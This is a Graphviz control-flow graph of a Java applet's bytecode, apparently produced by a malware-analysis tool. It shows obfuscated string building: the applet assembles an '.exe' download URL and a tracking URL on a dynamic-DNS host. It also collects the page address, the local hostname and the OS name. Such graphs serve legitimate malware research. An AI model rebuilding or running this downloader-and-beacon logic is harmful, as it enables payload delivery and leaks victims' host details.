 digraph "" {
    "r0 := @this: Java"
    "new KLHGdf8wighfuidfiH"
    "r0 := @this: Java"->"new KLHGdf8wighfuidfiH";
    "specialinvoke <KLHGdf8wighfuidfiH: void <init>()>"
    "new KLHGdf8wighfuidfiH"->"specialinvoke <KLHGdf8wighfuidfiH: void <init>()>";
    "push 32"
    "specialinvoke <KLHGdf8wighfuidfiH: void <init>()>"->"push 32";
    "newarray"
    "push 32"->"newarray";
    "store.r r1"
    "newarray"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push 0"
    "load.r r1"->"push 0";
    "push \"a\""
    "push 0"->"push \"a\"";
    "arraywrite.r"
    "push \"a\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 1"
    "load.r r1"->"push 1";
    "push \"b\""
    "push 1"->"push \"b\"";
    "push \"b\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 2"
    "load.r r1"->"push 2";
    "push \"c\""
    "push 2"->"push \"c\"";
    "push \"c\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 3"
    "load.r r1"->"push 3";
    "push \"d\""
    "push 3"->"push \"d\"";
    "push \"d\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 4"
    "load.r r1"->"push 4";
    "push \"e\""
    "push 4"->"push \"e\"";
    "push \"e\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 5"
    "load.r r1"->"push 5";
    "push \"f\""
    "push 5"->"push \"f\"";
    "push \"f\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 6"
    "load.r r1"->"push 6";
    "push \"g\""
    "push 6"->"push \"g\"";
    "push \"g\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 7"
    "load.r r1"->"push 7";
    "push \"h\""
    "push 7"->"push \"h\"";
    "push \"h\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 8"
    "load.r r1"->"push 8";
    "push \"i\""
    "push 8"->"push \"i\"";
    "push \"i\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 9"
    "load.r r1"->"push 9";
    "push \"j\""
    "push 9"->"push \"j\"";
    "push \"j\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 10"
    "load.r r1"->"push 10";
    "push \"k\""
    "push 10"->"push \"k\"";
    "push \"k\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 11"
    "load.r r1"->"push 11";
    "push \"l\""
    "push 11"->"push \"l\"";
    "push \"l\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 12"
    "load.r r1"->"push 12";
    "push \"m\""
    "push 12"->"push \"m\"";
    "push \"m\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 13"
    "load.r r1"->"push 13";
    "push \"n\""
    "push 13"->"push \"n\"";
    "push \"n\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 14"
    "load.r r1"->"push 14";
    "push \"o\""
    "push 14"->"push \"o\"";
    "push \"o\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 15"
    "load.r r1"->"push 15";
    "push \"p\""
    "push 15"->"push \"p\"";
    "push \"p\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 16"
    "load.r r1"->"push 16";
    "push \"q\""
    "push 16"->"push \"q\"";
    "push \"q\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 17"
    "load.r r1"->"push 17";
    "push \"r\""
    "push 17"->"push \"r\"";
    "push \"r\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 18"
    "load.r r1"->"push 18";
    "push \"s\""
    "push 18"->"push \"s\"";
    "push \"s\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 19"
    "load.r r1"->"push 19";
    "push \"t\""
    "push 19"->"push \"t\"";
    "push \"t\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 20"
    "load.r r1"->"push 20";
    "push \"u\""
    "push 20"->"push \"u\"";
    "push \"u\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 21"
    "load.r r1"->"push 21";
    "push \"v\""
    "push 21"->"push \"v\"";
    "push \"v\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 22"
    "load.r r1"->"push 22";
    "push \"w\""
    "push 22"->"push \"w\"";
    "push \"w\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 23"
    "load.r r1"->"push 23";
    "push \"x\""
    "push 23"->"push \"x\"";
    "push \"x\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 24"
    "load.r r1"->"push 24";
    "push \"y\""
    "push 24"->"push \"y\"";
    "push \"y\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 25"
    "load.r r1"->"push 25";
    "push \"z\""
    "push 25"->"push \"z\"";
    "push \"z\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 26"
    "load.r r1"->"push 26";
    "push \":\""
    "push 26"->"push \":\"";
    "push \":\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 27"
    "load.r r1"->"push 27";
    "push \"/\""
    "push 27"->"push \"/\"";
    "push \"/\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 28"
    "load.r r1"->"push 28";
    "push \".\""
    "push 28"->"push \".\"";
    "push \".\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 29"
    "load.r r1"->"push 29";
    "push \"=\""
    "push 29"->"push \"=\"";
    "push \"=\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 30"
    "load.r r1"->"push 30";
    "push \"&\""
    "push 30"->"push \"&\"";
    "push \"&\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "push 31"
    "load.r r1"->"push 31";
    "push \"-\""
    "push 31"->"push \"-\"";
    "push \"-\""->"arraywrite.r";
    "new java.lang.StringBuffer"
    "arraywrite.r"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"http://www.doctorcuy.com/try\""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"http://www.doctorcuy.com/try\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"http://www.doctorcuy.com/try\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "arrayread.r"
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r2"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "virtualinvoke <Java: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <Java: java.net.URL getDocumentBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <Java: java.net.URL getDocumentBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"store.r r0";
    "staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>"
    "store.r r0"->"staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>";
    "virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>"
    "staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>"->"virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"
    "virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "store.r r5"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"store.r r5";
    "push \"os.name\""
    "store.r r5"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "store.r $r238"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"store.r $r238";
    "store.r $r238"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r1";
    "load.r r1"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 26";
    "push 26"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 24";
    "push 24"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 22";
    "push 22"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 24";
    "push 24"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 31";
    "push 31"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 31";
    "push 31"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 6";
    "push 6"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 4";
    "push 4"->"arrayread.r";
